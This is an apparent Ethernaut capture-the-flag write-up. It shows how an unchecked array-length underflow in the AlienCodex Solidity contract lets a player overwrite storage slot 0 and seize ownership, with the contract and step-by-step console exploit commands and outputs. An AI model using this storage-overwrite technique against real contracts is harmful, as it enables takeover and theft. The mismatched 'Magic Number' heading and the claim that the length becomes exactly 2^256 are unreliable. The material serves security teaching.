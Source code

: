 # Level 18: Magic Number

This is the level 18 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites

- Contract [storage mechanism](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/) for dynamically sized arrays
- Integer [overflow/underflow](https://docs.soliditylang.org/en/v0.6.0/security-considerations.html#two-s-complement-underflows-overflows) in Solidity
- [Storage slot assignment in contract on inheritance](https://ethereum.stackexchange.com/questions/63403/in-solidity-how-does-the-slot-assignation-work-for-storage-variables-when-there)

## Hack

Given contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

`player` has to claim ownership of `AlienCodex`.

The target `AlienCodex` implements ownership pattern so it must have a `owner` state variable of `address` type, which can also be confirmed upon inspecting ABI (`contract.abi`). Moreover, the 20 byte `owner` is stored at slot 0 (as well as 1 byte bool `contact`).

Before we start, note that every contract on Ethereum has storage like an array of 2<sup>256</sup> (indexing from 0 to 2<sup>256</sup> - 1) slots of 32 byte each.

The vulnerability of `AlienCodex` originates from the `retract` method which sets a new array length without checking a potential underflow. Initially, `codex.length` is zero. Upon invoking `retract` method once, 1 is subtracted from zero, causing an underflow. Consequently, `codex.length` becomes 2<sup>256</sup> which is exactly equal to total storage capacity of the contract! That means any storage slot of the contract can now be written by changing the value at proper index of `codex`! This is possible because EVM doesn't validate an array's ABI-encoded length against its actual payload.

First call `make_contact` so that we can pass check - `contacted`, on other methods:
```javascript
await contract.make_contact()
```

Modify `codex` length to 2<sup>256</sup> by invoking `retract`:
```javascript
await contract.retract()
```

Now, we have to calculate the index, `i` of `codex` which corresponds to slot 0 (where `owner` is stored).

Since, `codex` is dynamically sized only it's length is stored at next slot - slot 1. And it's location/position in storage, according to allocation rules, is determined by as `keccak256(slot)`:
```
p = keccak256(slot)
or, p = keccak256(1)
```

Hence, storage layout would look something like:
```
Slot        Data
------------------------------
0             owner address, contact bool
1             codex.length
    .
    .
    .
p             codex[0]
p + 1         codex[1]
    .
    .
2^256 - 2     codex[2^256 - 2 - p]
2^256 - 1     codex[2^256 - 1 - p]
0             codex[2^256 - p]  (overflow!)
```
Form above table it can be seen that slot 0 in storage corresponds to index, `i` = `2^256 - p` or `2^256 -  keccak256(1)` of `codex`!

So, writing to that index, `i` will change `owner` as well as `contact`.

You can go on write some Solidity to calculate `i` using `keccak256`, but it can also be done in console which I'm going to use.

Calculate position, `p` in storage of start of `codex` array
```javascript
// Position
p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]))

// Output: 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
```

Calculate the required index, `i`. Use `BigInt` for mathematical calculations between very large numbers.
```javascript
i = BigInt(2 ** 256) - BigInt(p)

// Output: 35707666377435648211887908874984608119992236509074197713628505308453184860938n
```

Now since value to be put must be 32 byte, pad the `player` address on left with `0`s to make a total of 32 byte. Don't forget to slice off `0x` prefix from player address!
```javascript
content = '0x' + '0'.repeat(24) + player.slice(2)

// Output: '0x000000000000000000000000<20-byte-player-address>'
```

Finally call revise to alter the storage slot:
```javascript
await contract.revise(i, content)
```

And we hijacked `AlienCodex`! Verify by:
```javascript
await contract.owner() === player

// Output: true
```

Done!

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
